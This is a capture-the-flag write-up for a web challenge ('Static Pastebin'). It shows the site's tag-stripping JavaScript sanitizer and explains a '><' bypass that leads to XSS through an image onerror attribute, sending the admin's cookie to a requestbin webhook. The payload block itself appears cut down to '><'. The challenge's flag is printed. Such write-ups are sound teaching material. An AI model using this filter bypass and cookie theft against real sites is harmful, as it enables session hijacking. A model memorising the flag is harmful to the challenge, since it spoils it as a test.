

# Static Pastebin
Points: 373
## Category
Web
## Problem Statement
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here\
Site: static-pastebin.2020.redpwnc.tf\
Note: The site is entirely static. Dirbuster will not be useful in solving it.\
## Solution
* Pastebin was static website it just used to return `https://static-pastebin.2020.redpwnc.tf/paste/#`+(base64 of text) as url.
* Most interesting thing in pastebin was - It had one `script.js`. It used to trim out `<tags>` of text and displayed rest.
```js
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```
* One can easily bypass this senitizer by using `><` instead of `>` or `<`. Because html just display reductant `<` or `>` doesnt shows an error.
* Then we used [requestbin](https://requestbin.com) to setup a webhooks.
* We tried by we couldnt bypass this `<script>` tag using this trick or any other.
* Later we ended up using onerror attribute of image tag.
* Then we didnt knew where to find flag after successfully executing this script on server. We asked admins for a hint.
* Hint we got was - `flag is in admin cookie`.


```js
><
```

## Flag
```
flag{54n1t1z4t10n_k1nd4_h4rd}
```